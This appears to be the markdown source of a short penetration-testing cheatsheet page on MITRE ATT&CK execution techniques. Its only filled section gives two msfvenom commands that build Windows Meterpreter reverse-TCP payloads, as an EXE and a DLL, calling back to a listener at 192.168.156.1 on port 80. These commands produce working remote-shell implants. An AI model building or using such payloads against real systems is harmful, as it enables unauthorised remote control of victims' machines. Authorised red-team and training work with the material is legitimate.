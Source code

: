 ```yaml
---
layout: post
title: TA0002 Execution
category: pen
parent: cheatsheets
modified_date: 2022-02-15
permalink: /pen/build-payload
---
```


**Mitre Att&ck Entreprise**: [TA0002 - Execution](https://attack.mitre.org/tactics/TA0002/)

**Menu**
<!-- vscode-markdown-toc -->
* [Build System Interpreters - MSFvenom](#BuildSystemInterpreters-MSFvenom)
* [EXEC Python](#EXECPython)
	* [](#)
	* [EXEC Powershell](#EXECPowershell)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='BuildSystemInterpreters-MSFvenom'></a>build-interpreter-msfvenom
```sh
#? generate msfvenom payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f exe > /tmp/meter-rtcp-192.168.156.1-80.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f dll > /tmp/meter-rtcp-192.168.156.1-80.dll
```